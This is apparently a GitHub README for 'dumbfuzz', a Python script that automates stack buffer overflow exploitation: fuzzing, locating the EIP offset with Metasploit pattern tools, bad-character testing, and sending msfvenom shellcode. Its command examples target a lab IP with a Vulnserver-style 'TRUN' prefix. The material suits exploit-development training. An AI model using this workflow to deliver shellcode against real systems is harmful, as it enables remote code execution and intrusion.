 # dumbfuzz

A dumb buffer overflow fuzzing script that integrates fuzzing, finding offset, bad character testing, verifying EIP, and sending shellcode:
- Integrate `metasploit-framework/tools/exploit/pattern_create.rb -l & -q` for locating offset
- You can directly copy & paste `msfvenom`'s BoF shellcode into a `.txt` file and load it up (Yeap, direct output including words like `unsigned char` and quotes)
- Built-in Little Endian conversion for EIP values so you don't have to calculate manually

## Fuzz

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode fuzz
```

## Offset + EIP

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode offset --length 2400
```

## Bad Character Tests

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode badchar --length 2003
```

## Verify EIP offset

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode verify --length 2003
```

## Shellcode

```python
python .\main.py --target 192.168.217.133 --port 9999 --prefix "TRUN /.:/"  --mode shellcode --length 2003 --shell_file shell.txt --eip 625011af
```

